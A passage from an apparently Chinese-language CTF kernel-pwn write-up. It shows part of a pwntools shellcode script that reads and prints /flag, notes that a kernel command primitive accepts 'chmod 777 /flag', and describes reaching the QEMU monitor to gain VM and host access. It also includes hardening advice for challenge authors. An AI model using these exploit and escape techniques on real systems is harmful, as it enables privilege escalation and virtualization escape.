 ```python
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_read
syscall

mov rdi, 1 #out_fd
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_write
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}

.align 8
file_name:
.string "/flag"
.align 8
buffer:
.space 0x200
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```

### 5.3.3 run_cmd<br>
`run_cmd`虽然说能在内核态下执行任意指令，但是像`/bin/sh -c '/bin/cat /flag > /tmp/flag'`的指令是不能执行的。指令无效的原因可能是分割字符串出现的问题。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250928215553.png)
源码如上<br>
但是，**`/usr/bin/chmod +777 /flag`是有效的**。<br>



# 特典: kernel pwn tricks:<br>
这些特典或许不能帮助我们理解kernel，但是可以帮助我们ctf题目中快速拿分！<br>
## 特典一：qemu monitor模式<br>
`QEMU monitor` 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。<br>
***对于出题人而言，应当时刻保证 QEMU 的参数包含一行 -monitor none 或是 -monitor /dev/null 以确保选手无法访问 QEMU monitor。***<br>
通常情况下，进入 QEMU monitor 的方法如下:<br>
```
1. 首先同时按下 CTRL + A
2. 接下来按 C
```
使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：<br>
```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```
在 QEMU monitor 当中有一条比较好用的指令叫做`migrate`，其支持我们执行特定的 URI：<br>
```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```